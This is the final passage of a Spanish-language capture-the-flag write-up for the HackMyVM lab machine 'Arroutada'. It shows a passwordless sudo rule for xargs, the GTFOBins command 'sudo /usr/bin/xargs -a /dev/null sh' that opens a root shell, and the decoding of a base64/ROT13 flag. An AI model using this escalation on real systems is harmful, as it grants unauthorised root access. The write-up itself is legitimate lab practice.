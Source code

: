 ```
drito@arroutada:~$ sudo -l
Matching Defaults entries for drito on arroutada:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User drito may run the following commands on arroutada:
    (ALL : ALL) NOPASSWD: /usr/bin/xargs
```

Buscando en gtfobins encontramos que podemos abirir una shell como root
https://gtfobins.github.io/gtfobins/xargs/

```
drito@arroutada:~$ sudo /usr/bin/xargs -a /dev/null sh
# id
uid=0(root) gid=0(root) groups=0(root)
# bash
root@arroutada:/home# cd /root
root@arroutada:~# cat root.txt 
***************OYXFOeXlVbnB4WmxJWg==
```

Al parecer la flag esta encriptada. Al parecer es base64 pero cuando la desencripto al parecer sigue encriptada en otra forma. Viendo cual era la encriptacion al parecer es ROT13

```
******************ackMyVM
```

Con esto terminamos la maquina Arroutada. Me parece una buena maquina trayendo desde lo basico a un poco mas intermedio al final. 
